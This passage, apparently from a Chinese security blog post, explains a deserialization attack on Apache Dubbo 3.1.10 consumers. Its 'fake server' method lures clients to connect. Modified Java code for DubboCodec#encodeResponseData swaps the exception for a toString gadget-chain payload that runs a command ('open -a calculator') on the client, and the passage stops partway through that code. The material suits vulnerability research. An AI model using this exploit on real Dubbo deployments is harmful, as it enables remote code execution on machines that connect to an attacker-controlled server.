 [Dubbo 编解码那些事\_decodeablerpcresult-CSDN 博客](https://blog.csdn.net/vivo_tech/article/details/115633937) 可知 `DecodeableRpcResult` 这个类是在 dubbo 服务的消费者接收提供者方发来的响应时解码使用。  
**利用方式一：fake server**  
测试版本：Apache Dubbo 3.1.10  
我们知道 dubbo 支持多种序列化方式，对于 dubbo 协议来说默认为 hessian2，其他如下所示（hessian2 对应 id 为 2，也可以通过 `Serialization.getContentTypeId()` 获得）  
[![](assets/1703064279-ed295015a1a83facfe5c05015d198e0f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231219143052-2812545a-9e38-1.png)  
由官方文档可知，这个协议如何配置完全由服务方定的，因此完全可以做一个 fake server 来诱导客户端主动连接。  
[![](assets/1703064279-f62b3e70204b127e0999e82ac2f6ce0f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231219143144-473e7502-9e38-1.png)  
因此我们可以重写服务端编码响应信息函数的部分逻辑，主动构造一个用于上面提到的 toString 调用链对象来替代 Throwable 实例 th。  
具体重写位置在 `org.apache.dubbo.rpc.protocol.dubbo.DubboCodec#encodeResponseData(org.apache.dubbo.remoting.Channel, org.apache.dubbo.common.serialize.ObjectOutput, java.lang.Object, java.lang.String)`

```bash
@Override
    protected void encodeResponseData(Channel channel, ObjectOutput out, Object data, String version) throws IOException {
        Result result = (Result) data;
        // currently, the version value in Response records the version of Request
        boolean attach = Version.isSupportResponseAttachment(version);
//         Throwable th = result.getException();   
         Object th = null;  // 利用点：用于 toString 的 gadget chain
         try {
                th = getThrowablePayload("open -a calculator");
            } catch (Exception e) {

            }

        if (th == null) {
            Object ret = result.getValue();
            if (ret == null) {
                out.writeByte(attach ? RESPONSE_NULL_VALUE_WITH_ATTACHMENTS : RESPONSE_NULL_VALUE);
            } else {
                out.writeByte(attach ? RESPONSE_VALUE_WITH_ATTACHMENTS : RESPONSE_VALUE);   
                out.writeObject(ret);   
            }
        } else {
            out.writeByte(attach ? RESPONSE_WITH_EXCEPTION_WITH_ATTACHMENTS : RESPONSE_WITH_EXCEPTION);
//            out.writeThrowable(th); 
            out.writeObject(th);    // 直接序列化对象即可
        }

        if (attach) {
            // returns current version of Response to consumer side.
            result.getObjectAttachments().put(DUBBO_VERSION_KEY, Version.getProtocolVersion());
```